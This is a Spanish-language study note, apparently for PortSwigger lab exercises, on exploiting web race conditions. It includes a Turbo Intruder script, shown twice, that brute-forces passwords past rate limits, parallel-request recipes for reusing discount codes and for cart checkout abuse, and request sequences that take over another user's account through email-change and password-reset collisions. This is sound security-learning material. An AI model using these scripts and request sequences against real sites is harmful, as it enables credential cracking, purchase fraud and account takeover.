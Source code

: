 Las condiciones de carrera son un tipo común de vulnerabilidad estrechamente relacionada con los defectos de la lógica empresarial. Se producen cuando los sitios web procesan las solicitudes simultáneamente sin las salvaguardias adecuadas. Esto puede llevar a múltiples hilos distintos interactuando con los mismos datos al mismo tiempo, resultando en una "colisión" que causa un comportamiento no intencionado en la aplicación. Un ataque con condición de carrera utiliza peticiones cuidadosamente cronometradas para causar colisiones intencionales y explotar este comportamiento no deseado con fines maliciosos.

* Limit overrun race conditions -> 
```
Rebajar precio de un item con un codigo de descuento enviar la request varias veces IMPORTANTE EN UN `SEND GROUP IN PARALLEL` duplicar las requests las veces que sean necesarias hasta poder conseguir realmente el descuento del precio en $0 o casi $0
```

* Bypassing rate limits via race conditions -> `login brute force password`
```python
"""
Para hacer un brute force, de la contraseña del user victim en este caso `carlos`
Pero se mantiene un rate limit en el lab, con race condition se puede bypassear: 

Usar la lista de password de `Passwords List`
Con TURBO INTRUDER - Tiramos el código (importante tener las passwords en el portapapeles/clipboard)
"""

def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
        
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in wordlists.clipboard:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

""" Reconocer el endpoint que retorne un 302 OK, esa será efectivamente la password, este ataque sirve en caso tal de poder encontrar un race condition en la option de login/ 
```

* Multi-endpoint race conditions -> `Ataque Parallel single connection`
	*  3 Request en total dentro de una race condition.
```js
Un POST /cart/checkout HTTP/2 que haga el checkout y añadimos DOS 2 request de 
añadir la chaqueta que queremos comprar porque deseamos lograr la sincronización de la peticiones aprovechandonos de la condición de carrera haciendo que cuando compre una gift card la interpreté la race condition con la compra de la jacket sin validar el precio con el credit store de $100 que tenía en la aplicación.
```

* Single-Endpoint Race Conditions -> `Paralell single packet attack`
```js
2 request dentro de un parallel single packet attack -> 
	* POST Cambio de correo electronico de wiener con el correo @exploit-server 
	* POST cambio de correo electronico de Carlos 

*. email=wiener@exploit-server.net&csrf=valueCSRF
*. email=carlos@juiceandshop.net&csrf=valueCSRF

Nos llegará al exploit server el correo electronico de cambio de carlos, tomamos el endpoint dejamos nuestro username wiener y nos apropiamos del correo de carlos, tipicamente un account takeover. 
```

* Exploiting time-sensitive - Race Condition -> `Parallel Single packet attack`
```js
2 request dentro de un parallel single packet attack ->
	* GET /forgot-password HTTP/2 //to get csrf token
	* POST /forgot-password HTTP/2
		username=wiener&csrf=valueCSRF
	* POST /forgot-password HTTP/2
		username=carlos&csrf=valueCSRF
* Nos llegará un solo correo de reset token, el problema radica en que a carlos le llegará un token de forgot password identico, nosotros usaremos el token para cambiar la password de carlos, ya que el token de el y el que llega a wiener son el mismo. 
* Cambiar la contraseña del endpoint GET /forgot-password?user=carlos&token=VALUEToken
```

<hr>

Tips - de mi amigo @krakenEU

**To identify:**

- Try seeing if the condition is attached to a session for example, there may be a time lapse between the client submit and the server actually committing the action. Or the lock is applied per user not session

**To exploit:**

- Try applying coupons in group (send in parallel)
- If a delay is noticed in a response, try racing the expensive item having a cheaper one. Add Item + purchase requests in parallel
- Try 2 requests to see if you can recieve the code of an arbitrary mail. You mail server + arbitrary mail in parallel 
- Try seeing if php cookies are set on forgot password for example, send two change password requests, one with the cookie and csrf of null session. If you get same token on the email you found a collision that takes only a timestamp but not user, change the username to carlos on the first request and send again in parallel, copy your link and change the user to carlos to access his password reset link.
- Brute Force with Turbo Intruder Extension Turbo Intruder template, takes wordlist from clipboard

```python
def queueRequests(target, wordlists):
    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )  
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard 
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```